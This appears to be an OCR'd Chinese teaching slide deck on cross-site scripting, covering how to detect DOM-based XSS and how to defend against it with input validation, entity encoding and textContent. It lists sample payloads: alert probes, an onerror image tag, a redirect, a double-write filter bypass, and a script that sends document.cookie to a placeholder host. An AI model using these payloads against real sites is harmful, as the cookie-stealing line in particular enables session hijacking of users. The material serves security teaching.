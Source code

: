 手动测试由 URL 参数引起的基于 DOM 的 XSS 涉及类似的过程：在参数中放置一些简单的唯一输入，使用 <span style="color:#FF0000">浏览器的开发工具</span> 在 DOM 中搜索此输入，并测试每个位置以确定它是否可利用。但是，其他类型的 DOM XSS 更难检测。要查找非基于 URL 的输入（例如document\.cookie）或非基于 HTML 的接收器（如setTimeout）中的基于 DOM 的漏洞，没有什么可以替代检查 JavaScript 代码，这可能非常耗时。

---

我们再看一下dom型的输入

1\.基础脚本： <span style="color:#FF0000">\<script>alert\('xss'\)\</script></span>  <span style="color:#FF0000">；</span>

2\.使用 html 标签中的触发事件： <span style="color:#FF0000">\<a href='' onclick=alert\('xss'\)>type\</a></span>  \,类似的还有onload等；

3\.当 src 中内容不存在或者错误时，将会弹出弹窗：

<span style="color:#FF0000">\<img src=http://127\.0\.0\.1/a\.jpg onerror=alert\('xss'\)></span>  <span style="color:#FF0000">；</span>

4\.直接在当前窗口跳转指定网页：

<span style="color:#FF0000">\<script>window\.location='https://www\.</span>  <span style="color:#FF0000">xxxx</span>  <span style="color:#FF0000">\.com/'\</script></span>  <span style="color:#FF0000">；</span>

5\.获取 cookie 值：

<span style="color:#FF0000">\<script>new</span>  <span style="color:#FF0000"> </span>  <span style="color:#FF0000">Image\(\)\.src="http://</span>  <span style="color:#FF0000">xxxx</span>  <span style="color:#FF0000">/c\.php?output="\+document\.cookie;\</script></span>

6\. \.\.\.\.\.\.

---

这个就是适用于检测的一些脚本。
————————————————————————————————————————————————————————
其实总结下来，上面说的这些检测的方式都存在自己的优势和不足，那还是那句话，我们还是要联系我们自己项目的实际场景，多种检测方式融合使用。

XSS防御方法

06

# XSS – 防御策略

<span style="color:#262626">限制输入内容的长度，防止超长输入导致的溢出攻击。</span>

<span style="color:#FFFFFF">限制输入内容的类型，如只允许数字、字母等，防止非法字符的输入。对</span>  <span style="color:#FFFFFF">DOM</span>  <span style="color:#FFFFFF">节点影响比较大的就是单引号和双引号</span>  <span style="color:#FFFFFF">。</span>

<span style="color:#262626">对输入内容进行格式校验，确保输入符合预期的格式要求。</span>

如双写：\<scr<script>ipt>alert\(/xss/\)\</script>

---

防御方法有这么几大类，我们看一下第一类就是输入内容的限制
那首先长度、类型，特殊字符的输入验证。
   1.对于一些标签的 < 和 > ，让他们在 HTML 中不会以一个script 标签形式执行。
   2.然后，对于DOM节点影响比较大的就是单引号和双引号，因为他们会关闭属性的值闭合，利用HTML标签间的空隙注入恶意脚本。
 3.将用户输入的数据进行HTML实体编码，以确保特殊字符不会被浏览器解释成HTML的标签或脚本。

在输出用户输入内容到HTML页面时，使用HTML实体编码来防止XSS攻击，如将"<"转换为"&lt;"。

在JavaScript中处理用户输入时，应用JavaScript编码技术，例如使用textContent等方法代替innerHTML确保数据安全。

对CSS属性进行编码，防止XSS攻击

---

